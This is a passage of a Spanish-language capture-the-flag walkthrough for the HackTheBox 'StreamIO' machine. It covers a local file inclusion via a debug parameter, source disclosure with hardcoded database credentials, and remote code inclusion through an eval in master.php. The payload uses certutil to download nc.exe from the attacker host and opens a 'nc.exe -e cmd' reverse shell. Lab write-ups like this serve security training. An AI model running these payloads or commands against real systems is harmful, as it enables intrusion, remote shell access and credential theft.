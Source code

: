 Con el parámetro debug no se que hacer, probé a poner un comando como ```whoami```    
```https://streamio.htb/admin/?debug=\Windows\system32\drivers\etc\hosts``` -> su contenido  
```https://streamio.htb/admin/?debug=index.php``` -> error  

Con los php para que no se interpreten sino que se muestre se debe poner el wrapper de php de codificacion en base64:
```https://streamio.htb/admin/?debug=php://filter/convert.base64-encode/resource=index.php```
Conseguimos el index.php

```php
<?php
define('included',true);

// Si el token de sesión no es el del admin nos dan el mensaje de forbidden
session_start();
if(!isset($_SESSION['admin'])) { header('HTTP/1.1 403 Forbidden'); die("<h1>FORBIDDEN</h1>"); }

// Se conecta a la database con estas creds:
$connection = array("Database"=>"STREAMIO", "UID" => "db_admin", "PWD" => 'B1@hx31234567890');
$handle = sqlsrv_connect('(local)',$connection);

// La parte del LFI
if(isset($_GET['debug'])) 
{ echo 'this option is for developers only';
	if($_GET['debug'] === "index.php") {
		die(' ---- ERROR ----');
	} else { include $_GET['debug'];}}
	else if(isset($_GET['user'])) {require 'user_inc.php';}
	else if(isset($_GET['staff'])) {require 'staff_inc.php';}
	else if(isset($_GET['movie'])) {require 'movie_inc.php';}
?>
```
Miramos a ver si en **admin** hay algo más.  

```console
└─$ wfuzz -c --hc=404 --hh=1678 -t 100 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -H "Cookie: PHPSESSID=mk7vtb65af847kjbpn5ospl9h9" 'https://streamIO.htb/admin/FUZZ.php'
000002394:   200        1 L      6 W        58 Ch       "master"
```
```https://streamio.htb/admin/?debug=php://filter/convert.base64-encode/resource=master.php```

```php
<?php
if(isset($_POST['include']))
{ if($_POST['include'] !== "index.php" )
eval(file_get_contents($_POST['include']));
?>
```
Si pones ```https://streamio.htb/admin/master.php``` dice que solo se puede acceder desde "includes" es decir desde el debug de antes:
```console
└─$ curl -s -k -X POST -H "Cookie: PHPSESSID=mk7vtb65af847kjbpn5ospl9h9" \
'https://streamio.htb/admin/?debug=master.php' -d 'include=http://10.10.14.16/test';
```
En test pongo:
```system("certutil.exe -f -urlcache -split http://10.10.14.16/nc.exe C:\\Windows\\System32\\spool\\drivers\\color\\nc.exe");```
```system("C:\\Windows\\System32\\spool\\drivers\\color\\nc.exe -e cmd 10.10.14.16 443");```

-----------------------
# Part 4: Dentro del sistema

Como antes no podíamos acceder a la base de datos de streamio..backup ahora a lo mejor si.
```console
C:\inetpub\streamio.htb\admin>sqlcmd -U db_admin -P B1@hx31234567890 -S localhost -d streamio_backup -Q "select * from users;"
id          username                                           password
```